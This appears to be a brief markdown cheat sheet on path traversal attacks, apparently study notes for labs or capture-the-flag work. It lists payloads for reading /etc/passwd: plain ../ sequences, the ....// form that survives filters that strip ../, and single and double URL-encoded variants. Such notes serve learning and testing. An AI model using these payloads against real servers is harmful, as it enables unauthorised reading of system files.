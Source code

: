 # Path Traversal

Goal = ``/etc/passwd``  
Step 1: try ``/etc/passwd``!  
Step 2: try basic traversal ``../../etc/passwd``


**Don't forget to try the most obvious way to access the file... sometimes the answer is not the complex attack, it is the simplest action.**



## Directory traversal sequences stripped?

``....//`` becomes ``../``



## URL Encoding

``../`` becomes ``%2e%2e%2f``



## Double URL Encoding

``%2e%2e%2f`` becomes ``%252e%252e%252f``
